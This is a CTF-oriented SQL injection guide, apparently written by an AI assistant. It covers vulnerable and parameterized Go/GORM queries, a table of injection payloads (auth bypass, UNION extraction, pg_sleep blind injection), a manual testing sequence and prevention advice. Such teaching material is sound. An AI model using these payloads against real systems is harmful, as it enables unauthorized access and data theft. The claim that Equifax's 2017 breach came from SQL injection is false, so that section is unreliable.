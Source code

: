 # 🛡️ SQL Injection (SQLi) – CTF Exploitation Guide

## 📘 Overview

**SQL Injection (SQLi)** is one of the most prevalent and dangerous vulnerabilities in web applications. It allows attackers to execute arbitrary SQL code on a database by injecting malicious SQL statements through unsanitized user input. If exploited successfully, SQLi can lead to:

- Authentication bypass
- Data exfiltration
- Data modification or deletion
- Complete database takeover

SQLi vulnerabilities occur when input from a client (user, API consumer, etc.) is concatenated directly into a SQL query without adequate escaping or use of parameterized statements.

---

## 💡 How It Works

Consider this vulnerable login form:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '1234';
````

If an attacker inputs:

* `Username`: `admin' --`
* `Password`: `anything`

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything';
```

The `--` comments out the rest of the query, bypassing the password check.

---

## ⚙️ Vulnerable Example in Go (GORM)

### 🚨 Insecure Code

```go
// WARNING: vulnerable to SQL injection!
db.Raw("SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'").Scan(&user)
```

### ✅ Secure Code

```go
// SAFE: uses parameterized query
db.Raw("SELECT * FROM users WHERE username = ? AND password = ?", username, password).Scan(&user)
```

Even better, use GORM's built-in query methods:

```go
db.Where("username = ? AND password = ?", username, password).First(&user)
```

---

## 🧪 CTF Challenge Hints

**Target Areas**:

* Login forms
* Search fields
* URL query parameters (e.g., `?id=`)
* Admin panels or dashboards
* Any feature that filters or returns database results

**Payload Examples**:

| Goal                       | Payload                                                            |
| -------------------------- | ------------------------------------------------------------------ |
| Auth Bypass                | `' OR '1'='1`                                                      |
| Extract Table Info         | `' UNION SELECT null, table_name FROM information_schema.tables--` |
| Time-based Blind Injection | `' OR pg_sleep(5)--`                                               |
| Boolean-based Blind SQLi   | `' AND 1=1--` or `' AND 1=2--`                                     |
| Data Extraction via UNION  | `' UNION SELECT null, version()--`                                 |
| Comment Injection          | `';--` or `--`                                                     |

---

## 🔍 Manual Testing Strategy

1. **Map Attack Surface**: Locate all endpoints accepting input.

   * URLs with `?id=123`
   * Forms with username/password, search, filters

2. **Inject Basic Payloads**:

   * Start with `'`, `"`, or `--` to cause errors or logic changes
   * Observe for changes in application behavior or server errors

3. **Try Logical Operators**:

   * `' OR 1=1--`
   * `' AND 1=2--`

4. **Try UNION SELECT Payloads**:

   * Determine column count (e.g., `' UNION SELECT null, null--`)
   * Use version extraction: `' UNION SELECT null, version()--`

5. **Blind Injection (if no error feedback)**:

   * `' AND (SELECT 1 WHERE 1=1)--`
   * `' OR CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--`

---

## 🛡️ Prevention Techniques

### ✅ Use Parameterized Queries

Always use prepared statements or parameterized queries to separate logic from data.

**In Go (GORM)**:

```go
db.Where("email = ?", inputEmail).Find(&user)
```

### ✅ Input Validation

* Accept only expected formats (e.g., email regex for login)
* Whitelist acceptable input values when possible

### ✅ Limit DB Permissions

* Use a limited-privilege DB user for the application
* Avoid granting `DROP`, `ALTER`, or `SUPERUSER` access to app-level accounts

### ✅ Logging & Monitoring

* Log unexpected input or failed queries
* Monitor for patterns of enumeration or timed responses

### ✅ Web Application Firewall (WAF)

Use WAFs (e.g., ModSecurity) to detect common SQLi payloads.

---

## 🧰 Tools for SQLi Testing

* [sqlmap](https://sqlmap.org/) – Automated SQLi scanner and exploit tool
* Burp Suite – Manual interception and fuzzing
* OWASP ZAP – Open source proxy for scanning
* Postman or curl – For testing APIs manually

---

## 🎯 CTF Challenge Ideas (You Can Include)

| Challenge Name   | Description                                    | Goal                          |
| ---------------- | ---------------------------------------------- | ----------------------------- |
| **Blind Gate**   | Login page with blind SQLi vulnerability       | Extract admin password        |
| **Query Sniper** | Profile page vulnerable to union-based SQLi    | Dump user table               |
| **Sleep Agent**  | Endpoint reveals data via time-based injection | Detect and exploit time delay |
| **Broken Auth**  | Bypass login using `' OR '1'='1`               | Log in without password       |

---

## 📚 Real-World Examples

* **2017**: Equifax breach – SQLi led to theft of data from 147M users.
* **2020**: Microsoft subdomain bug – SQLi found in legacy endpoint.
* **Bug Bounty Programs**: SQLi is still one of the most reported and rewarded bugs.

---

## 🧠 Final Tip

In a CTF, always look for places where input is directly reflected in results or errors. SQLi is often the key to unlocking hidden admin functions, dumping tables, or pivoting to deeper vulnerabilities.

---

```

Would you like me to do a similar **deep-dive write-up** for **XSS**, **LFI**, or **Command Injection** as well?
```
